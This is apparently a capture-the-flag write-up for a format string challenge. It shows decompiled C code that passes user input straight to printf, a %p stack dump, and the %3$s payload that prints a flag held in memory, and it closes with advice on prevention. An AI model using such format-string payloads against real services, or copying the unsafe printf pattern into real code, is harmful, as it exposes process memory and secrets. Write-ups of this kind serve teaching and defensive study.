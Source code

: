 # Challenge Description
Points: 50
Category: Binary Exploitation / Format String

In the heart of the cyber-conflict, "Mr. Robot's Printing Press" is churning out battlefield intelligence for commanders worldwide. But the press's output console — the Warzone Terminal — has a flaw. Anything you say is echoed back into the network without proper security checks.

Target: nc exploit.cyberbattle.info 9797

Connected to the service and received an ASCII art banner for "MR. ROBOT'S PRINTING PRESS - WARZONE TERMINAL". The challenge name "Operation Echo" and description about echoing input without security checks immediately suggested a format string vulnerability.

Binary Analysis
Using Binary Ninja to decompile the binary revealed the following key code in main():

int32_t main()
{
    FILE* fp = fopen("flag.txt", "r");
    
    if (!fp)
    {
        perror("flag.txt");
        return 1;
    }
    
    fgets(&flag, 0x100, fp);
    fclose(fp);
    setvbuf(__bss_start, nullptr, 2, 0);
    banner();
    
    while (true)
    {
        printf(&data_402234);  // Prints prompt
        char var_118[0x108];
        
        if (!fgets(&var_118, 0x100, stdin))
            return 0;
        
        if (!strncmp(&var_118, "exit", 4))
        {
            puts(&data_402250);
            return 0;
        }
        
        printf(&var_118, &var_118, &var_118, &flag);  // VULNERABILITY!
        puts(&data_402273);
    }
}

The Vulnerability
The critical vulnerability is on this line:

printf(&var_118, &var_118, &var_118, &flag);

Exploitation Process

Step 1: Stack Enumeration
First, I enumerated the stack to understand the memory layout:

$ nc exploit.cyberbattle.info 9797
⚡ EXECUTE PAYLOAD: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7ffe8dde2240 0x7ffe8dde2240 0x404080 (nil) 0x2ee0f480 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070 (nil) 0x4f00000006 0x2 (nil)

Step 2: Identifying the Flag Location
From the stack dump:
- Position 1: 0x7ffe8dde2240 - Stack address (user input buffer)
- Position 2: 0x7ffe8dde2240 - Same buffer (passed twice)
- Position 3: 0x404080 - Data segment address (flag location!)
- Position 4: (nil) - NULL

The address 0x404080 stood out as a data segment address (0x40xxxx range), which is exactly where a global flag buffer would be stored.

Step 3: Reading the Flag
Since the flag buffer address is at the 3rd position in the printf arguments, I used the format string specifier %3$s to dereference it and print the flag as a string:

$ nc exploit.cyberbattle.info 9797
⚡ EXECUTE PAYLOAD: %3$s
flag{f0rm4t_str1ng_3xpl01t_succ3ss}

Why This Works
The format string %3$s tells printf to:
- Access the 3rd argument (0-indexed would be position 3)
- Treat it as a pointer to a string ($s)
- Dereference the pointer and print the string

Since the 3rd argument contains the address of the flag buffer (0x404080), printf reads from that address and outputs the flag contents.

Key Takeaways
- Format string vulnerabilities occur when user input is passed directly as the format string to functions like printf, sprintf, etc.
- Direct parameter access (%n$x syntax) allows reading from specific stack positions
- Memory layout analysis through stack enumeration helps identify interesting addresses
- Global variables in binaries typically reside in predictable memory regions (data segment ~0x404000)

Prevention
This vulnerability could be prevented by:
- Using printf("%s", user_input) instead of printf(user_input)
- Input validation and sanitization
- Compiler flags like -Wformat-security to catch these issues

Flag: flag{f0rm4t_str1ng_3xpl01t_succ3ss}
